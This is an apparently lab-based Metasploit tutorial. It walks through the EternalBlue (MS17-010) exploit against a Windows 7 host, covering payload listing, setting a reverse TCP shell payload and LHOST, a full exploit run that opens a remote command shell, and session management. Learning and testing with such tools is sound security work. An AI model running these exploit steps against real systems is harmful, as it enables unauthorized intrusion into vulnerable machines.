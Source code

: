 As the name suggests, Metasploit is an exploitation framework. Exploits are the most populated module category.

  

Metasploit version details

```shell-session
       =[ metasploit v5.0.101-dev]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post]
+ -- --=[ 562 payloads - 45 encoders - 10 nops]
+ -- --=[ 7 evasion]
```

  

You can search exploits using the `search` command, obtain more information about the exploit using the `info` command, and launch the exploit using `exploit`. While the process itself is simple, remember that a successful outcome depends on a thorough understanding of services running on the target system.  
  
Most of the exploits will have a preset default payload. However, you can always use the `show payloads` command to list other commands you can use with that specific exploit.

Available payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads 

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   generic/custom                                               manual  No     Custom Payload
   1   generic/shell_bind_tcp                                       manual  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                    manual  No     Generic Command Shell, Reverse TCP Inline
   3   windows/x64/exec                                             manual  No     Windows x64 Execute Command
   4   windows/x64/loadlibrary                                      manual  No     Windows x64 LoadLibrary Path
   5   windows/x64/messagebox                                       manual  No     Windows MessageBox x64
   6   windows/x64/meterpreter/bind_ipv6_tcp                        manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   7   windows/x64/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
   8   windows/x64/meterpreter/bind_named_pipe                      manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
   9   windows/x64/meterpreter/bind_tcp                             manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
   10  windows/x64/meterpreter/bind_tcp_rc4                         manual  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
```

  

Once you have decided on the payload, you can use the `set payload` command to make your choice.

Payload options

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
payload => generic/shell_reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

  

Note that choosing a working payload could become a trial and error process due to environmental or OS restrictions such as firewall rules, anti-virus, file writing, or the program performing the payload execution isn't available (eg. payload/python/shell_reverse_tcp).

Some payloads will open new parameters that you may need to set, running the `show options` command once more can show these. As you can see in the above example, a reverse payload will at least require you to set the `LHOST` option.

Setting the LHOST value and running the exploit

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44
lhost => 10.10.186.44
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 

[*] Started reverse TCP handler on 10.10.186.44:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.186.44:4444 -> 10.10.12.229:49366) at 2021-08-20 04:51:19 +0100
C:\Windows\system32>
```

  

Once a session is opened, you can background it using `CTRL+Z` or abort it using `CTRL+C`. Backgrounding a session will be useful when working on more than one target simultaneously or on the same target with a different exploit and/or shell.

Backgrounding the session

```shell-session
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

  

**Working with sessions**

The `sessions` command will list all active sessions. The `sessions` command supports a number of options that will help you manage sessions better.

Sessions help menu

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -C   Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S   Row search filter.
    -c   Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i   Interact with the supplied session ID
    -k   Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n   Name or rename a session by ID
    -q        Quiet mode
    -s   Run a script or module on the session given with -i, or all
    -t   Set a response timeout (default: 15)
    -u   Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6

msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

  

You can interact with any existing session using the `sessions -i` command followed by the session ID.

Interacting with sessions

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions 

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...

C:\Windows\system32>
```